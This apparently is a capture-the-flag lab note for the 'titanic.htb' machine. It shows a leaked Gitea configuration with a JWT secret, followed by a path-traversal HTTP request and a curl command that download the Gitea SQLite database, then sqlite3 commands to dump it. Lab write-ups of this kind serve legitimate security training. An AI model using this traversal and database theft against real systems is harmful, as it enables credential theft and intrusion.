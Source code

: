 ```bash
ENABLE_CAPTCHA = false
DEFAULT_KEEP_EMAIL_PRIVATE = false
DEFAULT_ALLOW_CREATE_ORGANIZATION = true
DEFAULT_ENABLE_TIMETRACKING = true
NO_REPLY_ADDRESS = noreply.localhost

[lfs]
PATH = /data/git/lfs

[mailer]
ENABLED = false

[openid]
ENABLE_OPENID_SIGNIN = true
ENABLE_OPENID_SIGNUP = true

[cron.update_checker]
ENABLED = false

[repository.pull-request]
DEFAULT_MERGE_STYLE = merge

[repository.signing]
DEFAULT_TRUST_MODEL = committer

[oauth2]
JWT_SECRET = FIAOKLQX4SBzvZ9eZnHYLTCiVGoBtkE4y5B7vMjzz3g

# database
[database]
PATH = /data/gitea/gitea.db
DB_TYPE = sqlite3
HOST = localhost:3306
NAME = gitea
USER = root
PASSWD = 
LOG_SQL = false
SCHEMA = 
SSL_MODE = disable

# Put new path traversal
GET /download?ticket=../../../../../../home/developer/gitea/data/gitea/gitea.db HTTP/1.1
Host: titanic.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://titanic.htb/book
Origin: http://titanic.htb
DNT: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i

# download using curl
/download?ticket=../../../../../../home/developer/gitea/data/gitea/gitea.db
>
curl 'http://titanic.htb/download?ticket=../../../../../../home/developer/gitea/data/gitea/gitea.db' -o gitea.db

sqlite3 gitea.db .dump

sqlite3 gitea.db
```